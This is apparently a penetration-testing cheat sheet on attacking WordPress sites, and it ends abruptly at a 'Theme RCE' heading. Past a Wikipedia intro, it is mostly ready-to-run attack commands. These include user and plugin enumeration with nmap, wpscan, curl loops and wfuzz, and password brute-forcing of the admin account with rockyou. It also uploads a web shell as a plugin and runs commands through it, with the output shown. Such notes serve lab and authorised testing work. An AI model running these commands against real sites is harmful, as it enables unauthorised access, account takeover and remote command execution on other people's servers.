 # WordPress

## WordPress CMS

**WordPress** \(**WP**, **WordPress.org**\) is a [free and open-source](https://en.wikipedia.org/wiki/Free_and_open-source_software) [content management system](https://en.wikipedia.org/wiki/Content_management_system) \(CMS\) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in_%28computing%29) and a [template system](https://en.wikipedia.org/wiki/Web_template_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic_mailing_list) and [forums](https://en.wikipedia.org/wiki/Internet_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning_management_system) \(LMS\) and [online stores](https://en.wikipedia.org/wiki/Shopping_cart_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite_note-Usage_of_content_management_systems_for_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive_display_systems) \(PDS\).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## Enumerating WordPress

### Nmap

We can nmap nse scripts:

```text
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```text
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```text
wpscan --url http://target
```

Enumerate users:

```text
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```text
wpscan --url http://target --enumerate p
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```text
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following \(author=1,author=2, etc\):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```text
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```text
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```text
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```text
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```text
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```text
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -&gt; Add New -&gt; Upload Plugin -&gt; Browse -&gt; plugin-shell.zip -&gt; Open -&gt; Install Now -&gt;

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```text
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress &gt; Appearance &gt; Theme Editor &gt; Theme Header

